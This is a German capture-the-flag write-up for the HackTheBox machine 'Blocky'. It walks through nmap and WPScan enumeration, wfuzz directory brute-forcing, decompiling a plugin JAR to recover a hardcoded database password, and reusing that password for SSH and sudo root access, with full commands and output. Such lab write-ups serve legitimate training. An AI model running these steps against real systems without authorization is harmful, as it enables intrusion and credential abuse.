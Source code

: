 ```yaml
---
title: "HackTheBox - Blocky WriteUp | Tipps + Anleitung"
date: 2017-12-21T21:45:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
  - german
---
```


[Blocky](https://www.hackthebox.eu/home/machines/profile/48) ist eine der vielen Verfügbaren CTF Challenges auf [HackTheBox](https://hackthebox.eu/). [Blocky](https://www.hackthebox.eu/home/machines/profile/48) gehört zu den einfacheren Maschinen von [HackTheBox](https://hackthebox.eu/) und ist deswegen sehr gut für Anfänger geeignet. Aber auch für Erfahrene, die eine Herausforderung für zwischendurch suchen.

[![difficulty](https://imgur.com/eLVu2jE.jpg)](https://imgur.com/eLVu2jE)

## **Tipps**

- Welche Verzeichnisse kannst du finden? Eventuell eins, welches mit Plugins zu tun hat?
- Man sollte nie Passwörter mehrmals verwenden...

## **Anleitung**

Zuerst machen wir wie gewohnt einen Nmap-Scan um herauszufinden welche Ports offen sind. Dabei benutzen wir die Option **-A** um das Betriebssystem und ebenfalls die Services herauszufinden, welche auf den jeweiligen Ports laufen.

```shell
root@kali:~# nmap -A 10.10.10.37

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-21 21:13 CET
Nmap scan report for 10.10.10.37
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
21/tcp open ftp ProFTPD 1.3.5a
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| 256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_ 256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (EdDSA)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft - Under Construction!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel</pre>

Der Nmap-Scan liefert folgende interessante Ergebnisse:  
Port 21: FTP ( ProFTPD )  
Port 22: SSH ( OpenSSH )  
Port 80: HTTP ( Apache / Wordpress )
```

Da der Apache Server eine Wordpress Seite bereitstellt, können wir WPScan benutzen, welches nach Schwachstellen und Informationen ( wie z.B. Benutzernamen ) sucht. Eventuell haben wir Glück und es gibt eine vielversprechende Schwachstelle.

```shell
root@kali:~# wpscan -u http://10.10.10.37 --enumerate u

[+] URL: http://10.10.10.37/
[+] Started: Thu Dec 21 21:34:59 2017

[!] The WordPress 'http://10.10.10.37/readme.html' file exists exposing a version number
[+] Interesting header: LINK: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://10.10.10.37/xmlrpc.php
[!] Upload directory has directory listing enabled: http://10.10.10.37/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://10.10.10.37/wp-includes/

[+] WordPress version 4.8 (Released on 2017-06-08) identified from advanced fingerprinting, meta generator, links opml, stylesheets numbers
[!] 12 vulnerabilities identified from the version number

[... Aufzählung der Schwachstellen aus habe ich für eine bessere Übersichtlichkeit entfernt]

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Enumerating usernames ...
[+] Identified the following 1 user/s:
+----+-------+---------+
| Id | Login | Name |
+----+-------+---------+
| 1 | notch | Notch – |
+----+-------+---------+
```
Es wurden 12 Schwachstellen gefunden, allerdings keine die uns weiterbringen würde, weswegen ich die Aufzählung dieser entfernt habe.  
Immerhin haben wir einen Login-Namen gefunden und zwar **notch**. Dies könnte uns noch zum Nutzen sein.

Nun wäre es sinnvoll die Verzeichnisse der Wordpress-Seite zu bruteforcen. Ich benutze dafür wfuzz, welches bei Kali-Linux standardmäßig schon installiert seien sollte. Andere Anwendung, welche denselben Zweck erfüllen, kannst du natürlich auch benutzen. Zum Beispiel gobuster, dirb, dirbuster oder eine andere Anwendung deiner Wahl. Ich benutze als Wortliste die common.txt Text-Datei die von dirb standardmäßig in Kali-Linux in dem Verzeichnis **/usr/share/dirb/wordlists/common.txt** bereit gestellt wird. Als zusätzliche Option benutze ich bei wfuzz **--hc 404**, damit nicht gefundene Verzeichnisse / Dateien nicht im Terminal ausgegeben wird.

```shell
root@kali:~# wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --hc 404 http://10.10.10.37/FUZZ

Target: HTTP://10.10.10.37/FUZZ
Total requests: 4614

==================================================================
ID Response Lines Word Chars Payload
==================================================================

00001: C=200 313 L 3592 W 52256 Ch ""
00011: C=403 11 L 32 W 290 Ch ".hta"
02021: C=301 0 L 0 W 0 Ch "index.php"
02145: C=301 9 L 28 W 315 Ch "javascript"
02954: C=301 9 L 28 W 315 Ch "phpmyadmin"
03003: C=301 9 L 28 W 312 Ch "plugins"
03588: C=403 11 L 32 W 299 Ch "server-status"
04454: C=301 9 L 28 W 309 Ch "wiki"
04485: C=301 9 L 28 W 313 Ch "wp-admin"
04495: C=301 9 L 28 W 315 Ch "wp-content"
04501: C=301 9 L 28 W 316 Ch "wp-includes"
04568: C=405 0 L 6 W 42 Ch "xmlrpc.php"
00012: C=403 11 L 32 W 295 Ch ".htaccess"
00013: C=403 11 L 32 W 295 Ch ".htpasswd"

Total time: 315.8989
Processed Requests: 4614
Filtered Requests: 4600
Requests/sec.: 14.60593
```

Unter **http://10.10.10.37/plugins** können wir etwas interessantes finden. Und zwar zwei .jar Dateien. Laden wir uns diese doch herunter und sehen sie uns genauer an.

[![files](https://imgur.com/N0Kp1wH.jpg)](https://imgur.com/N0Kp1wH)

[![blockycore.jar](https://imgur.com/i40lrYH.jpg)](https://imgur.com/i40lrYH)

Mithilfe von JAD können wir Java .class Dateien dekompilieren. Dekompilieren wir mal **BlockyCore.class**.

```shell
root@kali:~/Desktop/Blocky# jad BlockyCore.class

Parsing BlockyCore.class...The class file version is 52.0 (only 45.3, 46.0 and 47.0 are supported)
Generating BlockyCore.jad
root@kali:~/Desktop/Blocky# cat BlockyCore.jad
// Decompiled by Jad v1.5.8e. Copyright 2001 Pavel Kouznetsov.
// Jad home page: http://www.geocities.com/kpdus/jad.html
// Decompiler options: packimports(3)
// Source File Name: BlockyCore.java

package com.myfirstplugin;

public class BlockyCore
{

public BlockyCore()
{
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
}

public void onServerStart()
{
}

public void onServerStop()
{
}

public void onPlayerJoin()
{
sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
}

public void sendMessage(String s, String s1)
{
}

public String sqlHost;
public String sqlUser;
public String sqlPass;
```

Ein Passwort für die SQL-Datenbank! Und das sogar unverschlüsselt... Was wir wohl damit alles anstellen können!

Versuchen wir uns doch beim SSH-Server mit dem bei Wordpress gefundenen Nutzernamen **notch** und dem in der **BlockyCore.class** gefundenen SQL-Passwort anzumelden.  
Vielleicht ist der Server-Administrator so unvorsichtig und benutzt dieselben Daten auch für den SSH-Login...

```shell
root@kali:~# ssh notch@10.10.10.37

notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

notch@Blocky:~$ ls
minecraft user.txt
```

Es hat funktioniert!  
Nun müssen wir nur noch an die Root-Rechte kommen

Kann es sein, dass der Administrator wieder dasselbe Passwort für den Super-User benutzt? Das kann doch normalerweise nicht sein... Aber vielleicht haben wir ja Glück.

```shell
notch@Blocky:~$ sudo su

[sudo] password for notch:
root@Blocky:/home/notch# cd /root/
root@Blocky:~# ls
root.txt
```

Wow... Dass jemand sooft dasselbe Passwort verwendet... Aber gut für uns!